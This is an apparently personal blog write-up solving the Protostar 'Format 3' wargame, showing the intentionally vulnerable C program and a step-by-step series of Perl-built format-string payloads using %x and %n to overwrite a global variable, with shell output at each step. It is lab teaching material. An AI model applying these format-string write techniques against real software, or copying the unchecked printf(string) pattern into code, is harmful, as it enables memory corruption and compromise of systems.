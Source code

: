 ```yaml
---
title: "Exploit Exercises - Protostar Format 3"
date: "2012-02-01T05:33:00-05:00"
comments: true
highlight: "true"
categories:
 - formatstring
 - wargames
 - Protostar
 - linux
 - exploit-exercises
 - hacking
---
```


Continuing in the String Format section, the next challenge we run across is [Format 3](http://exploit-exercises.com/protostar/format3). 

<!-- more -->

We're first given the following code: 

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void printbuffer(char *string)
{
 printf(string);
}

void vuln()
{
 char buffer[512];

 fgets(buffer, sizeof(buffer), stdin);

 printbuffer(buffer);

 if(target == 0x01025544) {
  printf("you have modified the target :)\n");
 } else {
  printf("target is %08x :(\n", target);
 }
}

int main(int argc, char **argv)
{
 vuln();
}
```

This seems to be just like Format 2, except that we have to modify all 8 bytes instead of just 2. 

The process is still pretty much the same.  We will first find the memory address of "target", to get that out of the way: 

```
user@protostar:/opt/protostar/bin$ objdump -t format3 | grep target
080496f4 g     O .bss   00000004              target
```

I tried spamming the format3 executable with 15 "%x", since the last couple challenges have been lower than the typical 150 I was doing. 

```
user@protostar:/opt/protostar/bin$ echo AAAA`perl -e 'print "%x."x15'` | ./format3
AAAA0.bffff5e0.b7fd7ff4.0.0.bffff7e8.804849d.bffff5e0.200.b7fd8420.bffff624.41414141.252e7825.78252e78.2e78252e.
target is 00000000 :(
```

It appears that we get our "41414141" at 12 bytes popped.  Let's verify: 

```
user@protostar:/opt/protostar/bin$ echo AAAA%x%x%x%x%x%x%x%x%x%x%x%x | ./format3
AAAA0bffff5e0b7fd7ff400bffff7e8804849dbffff5e0200b7fd8420bffff62441414141
target is 00000000 :(
```

So let's try it with the memory address of "target" instead of "AAAA": 

```
user@protostar:/opt/protostar/bin$ echo `perl -e 'print "\xf4\x96\x04\x08%x%x%x%x%x%x%x%x%x%x%x%n"'` | ./format3
0bffff5e0b7fd7ff400bffff7e8804849dbffff5e0200b7fd8420bffff624
target is 00000041 :(
```

Awesome! It's overwriting properly.  Our last byte shows as "41", meaning that printf wrote 41 characters.  However for the vulnerable program, it needs to be "44", so let's just increase it a little. 

```
user@protostar:/opt/protostar/bin$ echo `perl -e 'print "\xf4\x96\x04\x08%x%x%x%x%x%x%x%x%x%x%11x%n"'` | ./format3
0bffff5e0b7fd7ff400bffff7e8804849dbffff5e0200b7fd8420bffff624
target is 00000044 :(
```

So it appears if I use "%11x" for one of the stack pops, it's just the right amount.  You can actually calculate this value using a calculator, but I've found myself usually just brute forcing it with multiple guesses. 

So let's work on the next 2 bytes. From several of the books and papers listed in the previous challenge, I found out how to handle this. You just start appending more data, with a junk buffer, and possibly some spacing, and it will continue in a similar fashion. You then just increment the byte you want to overwrite, going upwards in the memory space, so you don't overwrite the space you already wrote the first time. 

To feel out for how many stack pops we'd have to do, I experimented, and spammed an additional 15 after setting up the start of the next byte of "target": 

```
user@protostar:/opt/protostar/bin$ echo `perl -e 'print "\xf4\x96\x04\x08%x%x%x%x%x%x%x%x%x%x%11x%nJUNKAAAAAAAA\xf5\x96\x04\x08" . "%x."x15'` | ./format3
0bffff5e0b7fd7ff400bffff7e8804849dbffff5e0200b7fd8420bffff624JUNKAAAAAAAA78257825.78257825.78257825.78257825.78257825.78313125.554a6e25.41414b4e.41414141.96f54141.78250804.2e78252e.252e7825.78252e78.2e78252e.
target is 00000044 :(
```

Now pay attention here. You'll see after 8 stack pops, you have "41414b4e.41414141".  The first byte has some junk from a previous memory address. Since we can only pass 4 "A"s, we'll need to buffer this a bit with additional junk bytes. To test that out, we can do: 

```
user@protostar:/opt/protostar/bin$ echo `perl -e 'print "\xf4\x96\x04\x08%x%x%x%x%x%x%x%x%x%x%11x%nJUNKJUAAAA\xf5\x96\x04\x08%x%x%x%x%x%x%x%x%x"'` | ./format3
0bffff5e0b7fd7ff400bffff7e8804849dbffff5e0200b7fd8420bffff624JUNKJUAAAA782578257825782578257825782578257825782578313125554a6e25554a4b4e41414141
target is 00000044 :(
```

Now if we just convert that final "%x" to a "%n", we'll overwrite the second memory address shown with the number of bytes printed. 

```
user@protostar:/opt/protostar/bin$ echo `perl -e 'print "\xf4\x96\x04\x08%x%x%x%x%x%x%x%x%x%x%11x%nJUNKJU\xf5\x96\x04\x08%x%x%x%x%x%x%x%x%n"'` | ./format3
0bffff5e0b7fd7ff400bffff7e8804849dbffff5e0200b7fd8420bffff624JUNKJU782578257825782578257825782578257825782578313125554a6e25554a4b4e
target is 00008e44 :(
```

Awesome again! We overwrote the next 2 bytes!  But wait a minute.  It overwrote "8e", and we want to get "55".  There is nothing that we can add to "8e" to get "55", as it's larger.  We can't subtract, so this poses an issue.  However, there's nothing saying that we can't overwrite 4 bytes instead of just 2.  We could simply add to "8e" until we get "255", since the next 4 bytes needed are "0255".  I played around with some math, and found that I could do exactly that! 

```
user@protostar:/opt/protostar/bin$ echo `perl -e 'print "\xf4\x96\x04\x08%x%x%x%x%x%x%x%x%x%x%11x%nJUNKJU\xf5\x96\x04\x08%x%x%x%x%x%x%x%463x%n"'` | ./format3
0bffff5e0b7fd7ff400bffff7e8804849dbffff5e0200b7fd8420bffff624JUNKJU782578257825782578257825782578257825782578313125554a6e25554a4b4e
target is 00025544 :(
```

This is convenient for us, because now we don't have to do 4 separate overwrites, we can skip the third one, moving directly to the fourth.  For this last pair, we will need to write "01".  Off the bat, with such a low number, I knew that we'd have to do something similar, since there's no way we would ever be writing 0 characters in printf.  We would just have to raise it to "101", and the first "1" would get cut off into a virtual la-la land. 

Again, let's find the length of stack addresses to pop, by spamming 15 "%x": 

```
user@protostar:/opt/protostar/bin$ echo `perl -e 'print "\xf4\x96\x04\x08%x%x%x%x%x%x%x%x%x%x%11x%nJUNKJU\xf5\x96\x04\x08%x%x%x%x%x%x%x%463x%nJUNKAAAA" . "%x."x15'` | ./format3
0bffff5e0b7fd7ff400bffff7e8804849dbffff5e0200b7fd8420bffff624JUNKJU782578257825782578257825782578257825782578313125554a6e25554a4b4eJUNKAAAA78257825.78257825.78257825.34257825.25783336.4e554a6e.4141414b.2e782541.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.
target is 00025544 :(
```

This time we have 7 pops, and again the buffer is mis-aligned.  So let's test the 7 pops and fixing the buffer alignment: 

```
user@protostar:/opt/protostar/bin$ echo `perl -e 'print "\xf4\x96\x04\x08%x%x%x%x%x%x%x%x%x%x%11x%nJUNKJU\xf5\x96\x04\x08%x%x%x%x%x%x%x%463x%nJUNAAAA%x%x%x%x%x%x%x"'` | ./format3
0bffff5e0b7fd7ff400bffff7e8804849dbffff5e0200b7fd8420bffff624JUNKJU782578257825782578257825782578257825782578313125554a6e25554a4b4eJUNAAAA78257825782578257825782534257825257833364e554a6e41414141
target is 00025544 :(
```

Removing one character from the 4-char word "JUNK" seemed to do the trick.  We are now showing "41414141" as the last word again. 

So let's switch the last "%x" to "%n", and the "AAAA" to our last memory address, and see what it outputs. 

```
user@protostar:/opt/protostar/bin$ echo `perl -e 'print "\xf4\x96\x04\x08%x%x%x%x%x%x%x%x%x%x%11x%nJUNKJU\xf5\x96\x04\x08%x%x%x%x%x%x%x%463x%nJUN\xf7\x96\x04\x08%x%x%x%x%x%x%n"'` | ./format3
0bffff5e0b7fd7ff400bffff7e8804849dbffff5e0200b7fd8420bffff624JUNKJU782578257825782578257825782578257825782578313125554a6e25554a4b4eJUN78257825782578257825782534257825257833364e554a6e
target is 8c025544 :(
```

Alright, so it's giving "8c", and we need to get to "101".  That's roughly 117 bytes difference.  I started tinkering from there, and found that it needed 125 extra characters. 

```
user@protostar:/opt/protostar/bin$ echo `perl -e 'print "\xf4\x96\x04\x08%x%x%x%x%x%x%x%x%x%x%11x%nJUNKJU\xf5\x96\x04\x08%x%x%x%x%x%x%x%463x%nJUN\xf7\x96\x04\x08%x%x%x%x%x%125x%n"'` | ./format3
0bffff5e0b7fd7ff400bffff7e8804849dbffff5e0200b7fd8420bffff624JUNKJU782578257825782578257825782578257825782578313125554a6e25554a4b4eJUN78257825782578257825782534257825257833364e554a6e
you have modified the target :)
```

Awesome! We actually were able to overwrite an arbitrary value in memory to a specific value of our desire.  Think of the implications of this.  I was solving it, and afterwards read about a very new string format vulnerability in "sudo".  More information can be read [here](http://www.sudo.ws/sudo/alerts/sudo_debug.html).  These are real-world applications, and these bugs are found in the wild.  It really blows my mind.
